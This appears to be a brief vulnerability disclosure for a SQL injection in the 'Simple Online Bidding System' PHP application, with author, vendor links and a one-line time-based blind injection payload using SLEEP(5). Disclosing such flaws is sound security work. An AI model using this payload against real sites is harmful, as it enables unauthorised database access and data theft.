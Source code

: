 # Simple Online Bidding System

**Exploit Title: Simple Online Bidding System SQL** Injection

**Date**: 4/08/2023

**Exploit Author:** y3thu

**Vendor Homepage:** [https://www.sourcecodester.com/users/tips23](https://www.sourcecodester.com/users/tips23)

**Software Link:** [https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html](https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html)

**Attack Vector:** WEB, Network

**Testeted on:** Kali Linux

**POC**

- **payload:**   AND (SELECT 5294 FROM (SELECT(SLEEP(5)))bgxK)
    
    !![Untitled 1](https://github.com/yethu123/vulns-finding/assets/29069905/c3e4aeb2-12c9-4f88-a72a-80f972f98a63)

    
    !![Untitled](https://github.com/yethu123/vulns-finding/assets/29069905/f529e593-a403-4dda-a57e-c481609b74a2)

    


  

https://github.com/yethu123/vulns-finding/assets/29069905/4bbd9e0d-8bf3-42fb-8a4e-530ca7ff3001


